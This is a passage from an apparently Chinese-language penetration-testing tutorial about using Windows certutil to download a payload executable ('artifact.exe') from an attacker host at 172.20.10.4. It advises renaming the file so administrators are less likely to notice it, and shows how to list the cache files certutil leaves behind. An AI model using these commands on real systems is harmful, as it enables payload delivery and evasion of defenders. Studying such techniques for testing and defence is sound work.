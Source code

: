 这里也可以进行文件的重命名，如果你觉得这个文件名太过于明显容易被管理员发现就可以在下载的时候使用自己设置的名字生成exe

```plain
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe nice.exe
```

[![](assets/1701612219-65c3da8850cd42f55eb63073b3b57a12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152047-8ae9c4ca-ca85-1.png)

使用`certutil`下载文件有个弊端就是会产生缓存文件，用如下命令查看：

```plain
certutil -urlcache *
```

[![](assets/1701612219-74f2d7e9f02f1a97df7993763d7cf9d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152049-8c001e0e-ca85-1.png)
